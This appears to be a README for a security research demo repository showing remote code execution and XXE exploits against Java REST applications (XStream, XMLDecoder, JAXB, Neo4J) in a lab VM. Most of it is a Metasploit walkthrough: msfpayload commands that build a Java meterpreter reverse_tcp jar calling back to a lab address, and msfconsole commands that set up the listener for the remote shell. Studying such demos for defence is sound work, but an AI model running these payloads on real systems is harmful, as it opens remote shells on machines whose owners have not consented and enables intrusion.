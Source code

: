 ## Demos

* SpringXStream: SpringMVC RESTful application using XStream and RCE exploits
* RestletXMLDecoder: Restlet application using object representation and RCCE exploits
* Neo4J: DB to be used in the vulnerable VM and curl exploits
* SpringJAXB: XXE Vulnerable SpringMVC REST API. To be deployed on the vulnerable VM (http://192.168.239.146/contacts)

## Using Metasploit
The demos have been weaponized to use meterpreter sessions. Meterpreter have been modified to run the payload at object instantiation time. Once your MSF installation has been modified to use the modified meterpreter session (download it from https://github.com/pwntester/metasploit-javapayload), run the following command to generate the malicious jar.

./msfpayload java/meterpreter/reverse_tcp LHOST=192.168.239.1 LPORT=4444 R > /Users/alvaro/Sites/met.jar
./msfpayload java/meterpreter/reverse_tcp LHOST=192.168.239.1 LPORT=4444 R > /Users/alvaro/Sites/met239.jar

The meterpreter needs to connect back to 192.168.239.1:4444. The meterpreter jar can be found at http://localhost/~alvaro/met.jar

Metasploit listener needs to be configured on 0.0.0.0:4444:
./msfconsole
use exploit/multi/handler
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
exploit

